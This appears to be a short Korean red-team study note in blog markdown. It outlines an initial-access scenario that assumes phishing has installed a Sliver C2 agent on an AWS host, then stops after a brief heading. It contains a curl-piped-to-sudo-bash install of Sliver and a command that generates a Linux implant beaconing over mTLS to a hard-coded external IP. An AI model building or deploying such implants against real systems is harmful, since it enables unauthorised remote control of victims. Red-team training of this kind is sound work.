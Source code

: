 ```yaml
---
title: Red Team Scenario
author: Jeongwon
date: 2025-03-15 22:08:00 +0900
categories: [Career, RedTeam]
tags: [writing]
render_with_liquid: false
---
```

## Red Team Scenario
`REF` : [Red Raccoon - 레드팀 플레이북](https://www.xn--hy1b43d247a.com/basic-redteam/overview)  | [타쿠대디 - OSCP Guide](https://takudaddy.tistory.com/439#T3)
<br><br><br>

### Initial Access && Information Collection

Phishing을 통한 피해자 호스트(AWS Instance)에 Sliver C2 서버 에이전트 설치를 가정<br>
[Sliver C2 Wiki](https://sliver.sh/docs?name=Getting+Started) | [NCSC Docs](https://www.ncsc.gov.uk/files/Advisory-further-TTPs-associated-with-SVR-cyber-actors.pdf)

```bash
sudo apt update
sudo curl https://sliver.sh/install | sudo bash
```

```bash
generate --os linux --arch amd64 --mtls 13.209.42.174:443 --save payload.exe

```

Multi-Stage Channels 활용






